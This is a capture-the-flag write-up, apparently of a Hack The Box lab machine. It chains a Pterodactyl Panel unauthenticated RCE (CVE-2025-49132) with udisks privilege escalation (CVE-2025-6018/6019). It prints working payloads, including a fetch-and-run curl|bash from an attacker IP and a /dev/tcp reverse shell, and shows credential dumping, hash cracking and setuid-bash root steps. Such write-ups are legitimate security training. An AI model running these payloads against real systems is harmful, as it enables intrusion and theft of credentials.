

Fuzzing for vhosts on http://pterodactyl.htb:
ffuf -w ~/Downloads/bitquark-subdomains-top100000.txt -u 'http://pterodactyl.htb' -H 'Host: FUZZ.pterodactyl.htb' -ic -c -v -fw 3
:: Method : GET
:: URL : http://pterodactyl.htb
:: Wordlist : FUZZ: /home/yutsuna/Downloads/bitquark-subdomains-top100000.txt
:: Header : Host: FUZZ.pterodactyl.htb
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
:: Filter : Response words: 3
________________________________________________
[Status: 200, Size: 1897, Words: 490, Lines: 36, Duration: 639ms]
| URL | http://pterodactyl.htb
* FUZZ: panelOn http://pterodactyl.htb there is a changelog.txt which reveals the panel version — Pterodactyl Panel v1.11.10.
MonitorLand - CHANGELOG.txt
======================================
Version 1.20.X
[Added] Main Website Deployment
--------------------------------
- Deployed the primary landing site for MonitorLand.
- Implemented homepage, and link for Minecraft server.
- Integrated site styling and dark-mode as primary.
[Linked] Subdomain Configuration
--------------------------------
- Added DNS and reverse proxy routing for play.pterodactyl.htb.
- Configured NGINX virtual host for subdomain forwarding.
[Installed] Pterodactyl Panel v1.11.10
--------------------------------------
- Installed Pterodactyl Panel.
- Configured environment:
- PHP with required extensions.
- MariaDB 11.8.3 backend.
[Enhanced] PHP Capabilities
-------------------------------------
- Enabled PHP-FPM for smoother website handling on all domains.
- Enabled PHP-PEAR for PHP package management.
- Added temporary PHP debugging via phpinfo()
Pterodactyl Panel v1.11.10 is affected by CVE-2025-49132 — an unauthenticated
Remote Code Execution rated CVSS 10.0.
Source: github.com/GRodolphe/CVE-2025-49132_poc
The catch: none of the public PoCs work out of the box, because they reference the wrong path for pearcmd.php.
A leftover phpinfo.php file at http://pterodactyl.htb/phpinfo.php reveals the correct path:

Correct path: usr/share/php/PEAR/pearcmd.php
Manually triggering RCE via curl (with a bit of AI-assisted debugging):
curl "http://panel.pterodactyl.htb/locales/locale.json?+config-create+/&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/<?=system('id')?>+/tmp/p.php"
curl -s "http://panel.pterodactyl.htb/locales/locale.json?locale=../../../../../../tmp&namespace=p" | grep 'uid'
uid=474(wwwrun) gid=477(www) groups=477(www)Automating full RCE (filling blank spaces with ${IFS}) failed for unclear reasons — curl and Burp Suite behaved differently against the same request. Went manual instead: curl the revshell payload down from a web server and execute it.
# stage payload
GET /locales/locale.json?+config-create+/&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/<?=system('curl${IFS}10.10.16.123/revshell.sh|bash')?>+/tmp/p.php
# revshell.sh
$ cat revshell.sh
sh -i >& /dev/tcp/10.10.16.123/1337 0>&1
# trigger it
GET /locales/locale.json?+config-create+/&locale=../../../../../tmp&namespace=prlwrap -cAr nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.16.123] from (UNKNOWN) [10.129.3.110] 47008
sh: cannot set terminal process group (1211): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ id
uid=474(wwwrun) gid=477(www) groups=477(www)MySQL credentials were leaked via the same LFI exploit chain:
python3 dump-creds.py http://panel.pterodactyl.htb
Target is vulnerable!
App key: base64{{UaThTPQnUjrrK61o}}+Luk7P9o4hM+gl4UiMJqcbTSThY=
-- Database config --
host: 127.0.0.1, port: 3306, database: panel
username: pterodactyl, password: PteraPanelConfirmed MySQL running locally on the reverse shell:
sh-4.4$ ss -tulnp
tcp LISTEN 0 511 127.0.0.1:6379 0.0.0.0:*
tcp LISTEN 0 80 127.0.0.1:3306 0.0.0.0:*
tcp LISTEN 0 512 127.0.0.1:9000 0.0.0.0:*Creds: pterodactyl:PteraPanel — connecting via mariadb (mysql client is deprecated on this build) and dumping the users table:
mariadb -h 127.0.0.1 -P 3306 -u pterodactyl -pPteraPanel panel
MariaDB [panel]> select * from users;
| username | email | password (bcrypt hash) |
| headmonitor | headmonitor@pterodactyl.htb | $2y$10$3WJht3/5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2 |
| phileasfogg3 | phileasfogg3@pterodactyl.htb | $2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi |Cracking the hashes with hashcat & rockyou — only one falls:
hashcat -m 3200 hashes ~/Downloads/rockyou.txt
$2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi:!QAZ2wsxCracked: phileasfogg3 : !QAZ2wsx
A mail left in /var/mail hints at the LPE path: unusual activity flagged from the udisksd daemon.
phileasfogg3@pterodactyl:/var/mail> cat phileasfogg3
Subject: SECURITY NOTICE — Unusual udisksd activity (stay alert)
Unusual activity has been observed from the udisks daemon (udisksd).
No confirmed compromise at this time, but increased vigilance is required.
Do not connect untrusted external media. Review your sessions for
suspicious activity. Administrators should review udisks and system
logs and apply pending updates.
— HeadMonitor, System AdministratorLPE chain is CVE-2025-6018 (PAM/session misconfig, local unpriv → higher unpriv) followed by CVE-2025-6019 (libblockdev/udisks LPE, → root).
Step 1 — exploit CVE-2025-6018 for an interactive shell as phileasfogg3:
python3 CVE-2025-6018.py -i 10.129.4.15 -u 'phileasfogg3' -p '!QAZ2wsx'
[INFO] Starting CVE-2025-6018 exploit against 10.129.4.15:22
[INFO] Connecting to 10.129.4.15:22 as phileasfogg3
[INFO] EXPLOITATION SUCCESSFUL - Privilege escalation confirmed
[INFO] Starting interactive shell session
exploit$ id
uid=1002(phileasfogg3) gid=100(users) groups=100(users)Step 2 — build a setuid XFS image on the attack box for CVE-2025-6019:
dd if=/dev/zero of=./xfs.image bs=1M count=300
mkfs.xfs ./xfs.image
mkdir ./xfs.mount
sudo mount -t xfs ./xfs.image ./xfs.mount
sudo cp /bin/bash ./xfs.mount
sudo chmod 04555 ./xfs.mount/bash
sudo umount ./xfs.mountTransfer it to the target:
scp ./xfs.image phileasfogg3@10.129.4.15:/home/phileasfogg3/xfs.imageMount the crafted image via udisksctl and trigger the vulnerable resize path:
killall -KILL gvfs-udisks2-volume-monitor
udisksctl loop-setup --file ./xfs.image --no-user-interaction
while true; do /tmp/blockdev*/bash -c 'sleep 10; ls -l /tmp/blockdev*/bash' && break; done 2>/dev/null &
gdbus call --system --dest org.freedesktop.UDisks2 \
--object-path /org/freedesktop/UDisks2/block_devices/loop0 \
--method org.freedesktop.UDisks2.Filesystem.Resize 0 '{}'A setuid bash binary spawns under /tmp:
exploit$ ls -lah /tmp/blockdev.B9X5J3
total 1.4M
drwxr-xr-x 2 root root 18 Feb 8 11:09 .
drwxrwxrwt 1 root root 1.5K Feb 8 18:02 ..
-r-sr-xr-x 1 root root 1.4M Feb 8 11:09 bashRoot:
/tmp/blockdev*/bash -pexploit$ id
uid=1002(phileasfogg3) gid=100(users) euid=0(root) groups=100(users)